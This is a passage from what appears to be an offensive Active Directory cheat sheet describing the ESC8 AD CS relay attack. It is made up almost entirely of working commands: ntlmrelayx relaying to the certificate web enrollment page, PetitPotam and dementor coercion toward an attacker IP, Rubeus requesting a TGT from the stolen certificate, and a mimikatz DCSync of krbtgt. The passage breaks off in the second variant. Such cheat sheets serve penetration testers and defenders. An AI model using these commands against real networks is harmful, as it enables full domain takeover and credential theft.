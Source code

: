 
#### ESC8 - AD CS Relay Attack

> An attacker can trigger a Domain Controller using PetitPotam to NTLM relay credentials to a host of choice. The Domain Controller’s NTLM Credentials can then be relayed to the Active Directory Certificate Services (AD CS) Web Enrollment pages, and a DC certificate can be enrolled. This certificate can then be used to request a TGT (Ticket Granting Ticket) and compromise the entire domain through Pass-The-Ticket.

Require [Impacket PR #1101](https://github.com/SecureAuthCorp/impacket/pull/1101)

* Version 1: NTLM Relay + Rubeus + PetitPotam
    ```powershell
    impacket> python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs
    impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template VulnTemplate
    # For a member server or workstation, the template would be "Computer".
    # Other templates: workstation, DomainController, Machine, KerberosAuthentication

    # Coerce the authentication via MS-ESFRPC EfsRpcOpenFileRaw function with petitpotam 
    # You can also use any other way to coerce the authentication like PrintSpooler via MS-RPRN
    git clone https://github.com/topotam/PetitPotam
    python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
    python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
    python3 dementor.py <listener> <target> -u <username> -p <password> -d <domain>
    python3 dementor.py 10.10.10.250 10.10.10.10 -u user1 -p Password1 -d lab.local

    # Use the certificate with rubeus to request a TGT
    Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
    Rubeus.exe asktgt /user:dc1$ /certificate:MIIRdQIBAzC...mUUXS /ptt

    # Now you can use the TGT to perform a DCSync
    mimikatz> lsadump::dcsync /user:krbtgt
    ```

* Version 2: NTLM Relay + Mimikatz + Kekeo
    ```powershell
    impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

    # Mimikatz
    mimikatz> misc::efs /server:dc.lab.local /connect:<IP> /noauth
